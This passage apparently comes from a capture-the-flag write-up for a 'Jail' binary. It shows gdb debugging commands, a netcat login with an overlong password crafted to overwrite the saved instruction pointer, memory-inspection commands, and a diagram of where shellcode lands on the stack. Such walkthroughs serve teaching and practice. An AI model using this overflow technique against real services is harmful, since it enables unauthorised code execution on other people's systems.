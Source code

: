 ```bash
  DEBUG
  USER admin
  PASS admin

gdb ./jail
  set detach-on-fork off
  set follow-fork-mode child
  r

nc localhost 7411
  USER admin
  PASS AAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCCCCCCC

  help x
# Examine memory: x/FMT ADDRESS.
# ADDRESS is an expression for the memory address to examine.
# FMT is a repeat count followed by a format letter and a size letter.
# x/nfu <address>: Print memory.
#   n: How many units to print (default 1).
#   f: Format character (like „print“).
#   u: Unit.
#     Unit is one of:
#       b: Byte,
#       h: Half-word (two bytes)
#       w: Word (four bytes)
#       g: Giant word (eight bytes)

  x/s 0xffffc7b0
  x/w 0xffffc7b0
  x/16wx 0xffffc7b0
  x/16wx 0xffffc7b0-4
```

    +-----------------+------+-------+
    |   AAAA.AAAA     | eip  | CCC..C|
    +-----------------+------+-------+
    |      28bytes    |4bytes|       |
    +-----------------+------|-------+      
      0xfffc7b0 + 32 bytes =     ^  malicious shellcode (DEP disable)

<br />
<img src="{{ site.img_path }}/jail_writeup/Jail_28.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/jail_writeup/Jail_29.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/jail_writeup/Jail_30.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/jail_writeup/Jail_31.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/jail_writeup/Jail_32.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/jail_writeup/Jail_33.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />
